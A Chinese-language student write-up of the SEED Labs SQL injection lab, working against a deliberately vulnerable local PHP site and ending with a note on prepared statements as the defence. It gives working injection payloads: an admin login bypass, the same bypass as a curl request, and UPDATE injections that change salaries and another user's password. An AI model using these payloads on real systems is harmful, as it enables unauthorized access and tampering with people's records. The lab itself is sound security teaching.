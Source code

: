 # SQL Injection Attack Lab

这一期的主题是 SQL 注入攻击. 

[地址](https://seedsecuritylabs.org/Labs_16.04/Web/Web_SQL_Injection/)

[实验指导](https://seedsecuritylabs.org/Labs_16.04/PDF/Web_SQL_Injection.pdf)

[参考资料](https://blog.csdn.net/qq_37672864/article/details/89331585)


## 预备知识

- SQL 基础

## 实验环境

虚拟机中 `/var/www/SQLInjection/` 给出了一个 web 项目, 本地浏览器访问 `http://www.SEEDLabSQLInjection.com`. 

同样虚拟机已经配装了 MySQL, 指令 `mysql -u root -pseedubuntu` 可访问, 于此实验相关的数据库为 User, 库中包含表 credential. 

``` SQL
use Users;
show tables;
select * from credential;
```

## 实验任务

### T2 SQL Injection Attack on SELECT Statement

在登录页 (对应 `/var/www/SQLInjection/unsafe home.php`) 插入 SQL 片段来完成任务. 下面是 `unsafe home.php` 中相关的代码片段. 

``` php
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
        FROM credential
        WHERE name= '$input_uname' and Password='$hashed_pwd'";
```

#### T2.1 SQL Injection Attack from webpage

我们需要在登录页面的输入框中插入 SQL, 以 Admin 的身份登录. 

经过测试, 这段 SQL 是没问题的. 
``` sql
SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
FROM credential
WHERE name = 'Admin' and Password = (select Password from credential where name='Admin');
```

如果一切顺利, 3 行 `Password=` 后面的内容就是答案, 但是传入的密码会通过 SHA1 加密, 利用密码的位置插入 SQL 片段不太合适. 所以在用户名位置插入下面的 SQL 片段

``` sql
Admin' and Password = (select Password from credential where name='Admin') #
```
::: tip
最后的 `#` 会注释掉多余的 SQL. 
:::

#### T2.2 SQL Injection Attack from command line
这个本质和 2.1 一样, 但是它要求仿造请求完成插入, 这里使用系统携带的 curl 工具. 
``` bash
curl 'www.SeedLabSQLInjection.com//unsafe_home.php?username=Admin%27%20and%20Password%20%3D%20%28select%20Password%20from%20credential%20where%20name%3D%27Admin%27%29%20%23&Password=111'
```
在请求中出现的特殊字符需要转成 ASCII 的 16 进制编码, 另外 `www.SeedLabSQLInjection.com` 后面的 `/` 貌似需要转义. 

#### T2.3 Append a new SQL statement

这里要求在 2.1 和 2.2 的基础上尝试一次注入两句 SQL, 
``` sql {2}
Admin' and Password = (select Password from credential where name='Admin'); 
insert into credential(name) values('test') #
```
这里第二句是一句插入, 添加一个名为 test 的用户. 

这个实验没有成功. 

### T3 SQL Injection Attack on UPDATE Statement

有 T2 的基础之后, T3 要简单的多, 主要是体验一下对数据库的修改, 相对读取数
据, 这种 SQL 注入危害更大.

任务要求在用户的 Edit Profile 页面注入 SQL, `/var/www/SQLInjection/unsafe edit backend.php` 中对应的代码片段. 
``` php
$hashed_pwd = sha1($input_pwd); 
$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email', address='$input_address', Password='$hashed_pwd', PhoneNumber='$input_phonenumber' WHERE ID=$id;";
$conn->query($sql);
```

#### T3.1 Modify your own salary

修改自己的薪水, 在 phone number 输入框中输入, 

``` php
', Salary='50000
```
不过这里要假装知道薪水对应的字段是 Salary. 

#### T3.2 Modify other people’ salary
修改自己老板 Boby 的薪水, 在 phone number 中添加,
``` sql
', Salary='1000' where Name='Boby' #
```

#### T3.3 Modify other people’ password
修改老板 Boby 的密码, 进一步打击报复, 在 address 中添加
``` sql
', Password='7c4a8d09ca3762af61e59520943dc26494f8941b', PhoneNumber = '' where Name='Boby' #
```
::: tip
正如之前提到, 这里的密码要预先经过 SHA1 加密, 明文为 123456. 
:::

## 如何应对 SQL 注入

### SQL Server 做了什么
对于 SQL Server, 一条 SQL 语句会被拆解为 SQL 部分与数据部分, 直到最后要写入数据库, SQL 语句都是用 placeholder 来占用数据所在的位置. 按顺序完成: 
1. 对 SQL 语句进行语义检查
1. 将 SQL 语句中的关键字 (SELECT 等) 转成机器可执行的代码
1. 优化, 选择最优操作
1. 将最优的方法写入缓冲区内
1. 将数据与编译完成的 SQL 绑定
1. 写入

### 分离 SQL 部分与数据部分

利用 Prepared SQL Statement 来提前做好数据的占位, 也就是在一开始将 SQL 部分和数据部分分离, 防止数据部分危险的内容与 SQL 部分结合, 篡改本意. 





